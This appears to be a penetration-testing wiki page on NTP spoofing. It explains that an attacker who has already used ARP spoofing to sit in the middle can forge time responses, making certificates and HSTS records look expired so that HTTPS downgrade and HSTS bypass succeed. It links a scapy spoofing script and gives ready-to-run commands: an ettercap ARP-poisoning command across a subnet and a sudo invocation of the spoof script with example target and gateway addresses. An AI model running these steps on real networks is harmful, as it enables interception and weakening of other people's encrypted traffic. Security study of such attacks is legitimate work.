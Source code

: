 # NTP Spoofing

Distributing accurate time is a vital part of sustaining network infrastructure. It’s also a critical element of network security, both when it comes to the expiry dates on certificates and timestamped system logs used for troubleshooting.

{% hint style="info" %}
NTP Spoofing is hard to detect and the only mitigation is NTP encryption or synchronizing network time with GPS, so this type of attack is not as obvious as ARP spoofing or other types of spoofing for that matter.
{% endhint %}

#### NTP Spoofing is done after ARP spoofing and becoming the man in the middle

#### This attack can trick the victim systems to think that the web certificates or HSTS records are expired and thus they wont trust the old records anymore, in this case the attacker can run MitM attacks such as HTTPS downgrade and HSTS bypass more successfully.

{% embed url="https://github.com/crazyarashi/ntp-spoof" %}

A scapy script for spoofing NTP responses with a MITM attack

1. ARP-Cache-Poisons the target and the gateway
2. Positions your machine between target and gateway in MITM attack
3. Listens for NTP-responses from gateway to target
4. Modifies the NTP-timestamps

#### Run ARP Spoof

```
ettercap [options] [target1] [target2]
```

example:

```
ettercap -T -q -M arp::remote /172.16.0.1-254//   /172.16.0.1-254//
```

#### Run the script:

```
sudo ./ntp-spoof.py -i [interface] -t [target ip] -g [gateway ip] -d [date-time to spoof]

# example:
sudo ./ntp-spoof.py -i enp0s25 -t 192.168.1.42 -g 192.168.1.1 -d 13:37-31.12.1983
```
